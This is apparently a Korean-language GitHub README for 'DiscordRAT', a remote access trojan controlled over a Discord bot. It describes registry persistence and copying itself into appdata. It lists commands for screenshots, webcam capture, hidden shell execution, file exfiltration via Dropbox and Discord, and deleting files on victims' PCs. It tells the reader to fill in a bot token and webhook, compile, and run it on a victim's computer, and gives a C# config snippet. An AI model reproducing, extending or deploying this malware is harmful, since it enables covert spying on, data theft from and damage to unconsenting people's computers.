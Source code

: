 ![venom](https://capsule-render.vercel.app/api?type=venom&height=200&text=DiscordRAT&fontSize=70&color=0:8871e5,100:b678c4&stroke=b678c4)

Discord.NET 을 이용한 reverse shell
## How It Works
프로그램을 실행할시 [init](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/init.cs) 실행(레지스트리 등록 appdata에 악성코드 복사본 등록(injection))
이미 악성코드가 실행중이면 중단하고 아니라면 봇 작동 후
명령어가 들어올시 [Command.command()](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/search.cs) 실행

public 명령어입니다.
```
all            모든 피해자 목록 조회
all_screenshot 모든 피해자 화면 가져오기
all_camshot    모든 피해자 캠 가져오기
all_shell      모든 피해자에게 shell 명령어 실행
```
private 명령어입니다.
```
(피해자의 아이피) kill                          Discrod_RAT을 종료시킴
(피해자의 아이피) delet                         모든 Discrod_RAT을 삭제
(피해자의 아이피) screenshot                    피해자의 화면을 가져옵니다.
(피해자의 아이피) camshot                       피해자의 캠을 가져옵니다.
(피해자의 아이피) open (파일경로)                피해자 컴퓨터 내부에있는 특정 파일을 엽니다. (shellexecute 사용)
(피해자의 아이피) messagebox (띄울 메시지)       피해자 컴퓨터에 메시지 박스를 띄웁니다.
(피해자의 아이피) messagebox_que (띄울 메시지)   피해자 컴퓨터에 메시지 박스를 띄웁니다.(Question 사용)
(피해자의 아이피) messagebox_error (띄울 메시지) 피해자 컴퓨터에 메시지 박스를 띄웁니다.(Error 사용)
(피해자의 아이피) dropbox_download (파일경로)    dropbox api를 사용해 피해자 컴퓨터의 내부파일을 가져옵니다.(무료버전 사용시 최대 2GB크기 까지 가능)
(피해자의 아이피) dropbox_upload (파일경로)      dropbox api를 사용해 피해자 컴퓨터에 파일을 업로드 시킵니다.(무료버전 사용시 최대 2GB크기 까지 가능)
(피해자의 아이피) deletdir (폴더경로)            디렉토리를 삭제합니다. (하위목록까지 전부삭제)
(피해자의 아이피) deletfile (파일경로)           파일을 삭제합니다.
(피해자의 아이피) dir (폴더경로)                 디렉토리 내부의 파일목록을 조회합니다. cmd의 dir과 똑같음
(피해자의 아이피) shell (실행할 명령어)          피해자 컴퓨터에서 shell을 사용(콘솔창은 안뜸)
(피해자의 아이피) downloadfile (파일경로)        discord attachments를 사용해서 파일 다운로드(최대 25MB까지 다운가능 니트로 사용시 더 큰파일도 가능)
(피해자의 아이피) uploadfile (파일경로)          discord attachments를 사용해서 피해컴퓨터에 특정 파일 다운(최대 25MB까지 다운가능 니트로 사용시 더 큰파일도 가능)
```
## Usage
[필수값](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/value.cs)을 수정해 봇,후크와 연동한후 컴파일 그리고 피해자PC에서 실행시키세요
```C# 8
private static GET GET = new GET();
// 본 프로그램의 이름
public string filename = "";
// 실제 게임의 위치
public string path = "";
// 프로그램 버전
public string version = " | 2.23v";
// 디스코드 봇 토큰
public string bot_token = "";
// 웹훅링크
public string EndPoint =
@"";
// ip
public string ip = GET.ip();
// 드랍박스 연결
public DropboxClient dropbox_ = new DropboxClient(
                                      oauth2RefreshToken: "",
                                      appKey: "",
                                      appSecret: "");
// 웹에 post를 보내기위한 HttpClient선언
public HttpClient client_ = new HttpClient();
```
